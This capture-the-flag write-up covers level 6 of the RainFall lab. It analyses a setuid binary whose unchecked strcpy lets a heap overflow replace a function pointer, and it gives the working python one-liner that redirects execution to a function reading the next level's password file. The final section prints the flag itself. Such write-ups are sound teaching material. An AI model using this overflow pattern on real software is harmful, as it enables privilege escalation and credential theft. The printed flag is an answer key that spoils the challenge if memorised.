 # **Level6**

In this level, we are provided with a binary file:

```bash
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
level6@RainFall:~$
```

## **Binary Analysis**

Using GDB, we analyzed the binary and discovered that the `main` function allocates memory and copies input:

```nasm
0x0804847c <main+0>:    push   %ebp
0x0804847f <+3>:        and    $0xfffffff0, %esp
0x08048482 <+6>:        sub    $0x20, %esp        ; Allocate 32 bytes on stack
0x08048485 <+9>:        movl   $0x40, (%esp)      ; First malloc(64)
0x0804848c <+16>:       call   0x8048350 <malloc@plt>
0x08048491 <+21>:       mov    %eax, 0x1c(%esp)   ; Save first malloc pointer
0x08048495 <+25>:       movl   $0x4, (%esp)       ; Second malloc(4)
0x0804849c <+32>:       call   0x8048350 <malloc@plt>
0x080484a1 <+37>:       mov    %eax, 0x18(%esp)   ; Save second malloc pointer
0x080484a5 <+41>:       mov    $0x8048468, %edx   ; Address of function `m`
0x080484aa <+46>:       mov    0x18(%esp), %eax
0x080484ae <+50>:       mov    %edx, (%eax)       ; Store `m`'s address in second malloc
0x080484b0 <+52>:       mov    0xc(%ebp), %eax    ; Get argv
0x080484b3 <+55>:       add    $0x4, %eax         ; argv[1]
0x080484b6 <+58>:       mov    (%eax), %eax
0x080484be <+66>:       mov    %edx, 0x4(%esp)    ; Second argument for strcpy
0x080484c2 <+70>:       mov    %eax, (%esp)       ; First argument for strcpy
0x080484c5 <+73>:       call   0x8048340 <strcpy@plt>
0x080484ca <+78>:       mov    0x18(%esp), %eax   ; Call function pointer
0x080484ce <+82>:       mov    (%eax), %eax
0x080484d0 <+84>:       call   *%eax ; Call function pointer
```

**Available Functions**

Listing all functions reveals two additional functions, `n` and `m`. While `m` is invoked in the binary, `n` contains the shell execution logic but is never directly called:

```nasm
(gdb) info functions
0x08048454  n         ; Target function
0x08048468  m         ; Default function
0x0804847c  main
```

Disassembling `n` shows that it executes **`system("/bin/cat /home/user/level7/.pass")**:

```nasm
(gdb) disas n
Dump of assembler code for function n:
0x08048454 <+0>:     push   %ebp
0x08048455 <+1>:     mov    %esp, %ebp
0x08048457 <+3>:     sub    $0x18, %esp
0x0804845a <+6>:     movl   $0x80485b0, (%esp) ; "/bin/cat /home/user/level7/.pass"
0x08048461 <+13>:    call   0x8048370 <system@plt>
0x08048466 <+18>:    leave
0x08048467 <+19>:    ret
```

Disassembling `m` shows that it prints *"Nope"*:

```nasm
0x08048468 <m+0>:     push   %ebp
0x08048469 <m+1>:     mov    %esp, %ebp
0x0804846b <m+3>:     sub    $0x18, %esp
0x0804846e <m+6>:     movl   $0x80485d1, (%esp)    ; "Nope"
0x08048475 <m+13>:    call   0x8048360 <puts@plt> 
```

## **Vulnerability**

The program is vulnerable due to:

1. **Unsafe `strcpy`**: It does not perform bounds checking.
2. **Function pointer stored on the heap**: This enables overwriting the pointer via a buffer overflow.

Relevant code snippet:

```c
int main(int argc, char **argv) {
    char *buffer = malloc(64);           // First malloc
    void (**func)() = malloc(4);         // Second malloc (function pointer)
    *func = &m;                          // Store address of m
    strcpy(buffer, argv[1]);             // Vulnerable strcpy
    (*func)();                           // Call function pointer
}
```

## **Exploit**

The goal is to overflow the first buffer to overwrite the second malloc chunk and replace the function pointer with the address of function `n`. When the function pointer is called, `n` executes instead of `m`.

**Finding the Offset**

The offset is **72 bytes**: 64 bytes for the first buffer + 8 bytes for heap metadata.

**Testing Different Sizes**:

```bash
# Test with 64 bytes (no padding)
./level6 $(python -c 'print "A" * 64 + "\x54\x84\x04\x08"')
# Doesn't work

# Test with 68 bytes (4 padding)
./level6 $(python -c 'print "A" * 68 + "\x54\x84\x04\x08"')
# Doesn't work

# Test with 72 bytes (8 padding)
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
# Works! Gets the password
```

1. Run the exploit:
    
    ```bash
    ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
    
    ```
    
2. Result:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

---

## **Flag**

```c
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```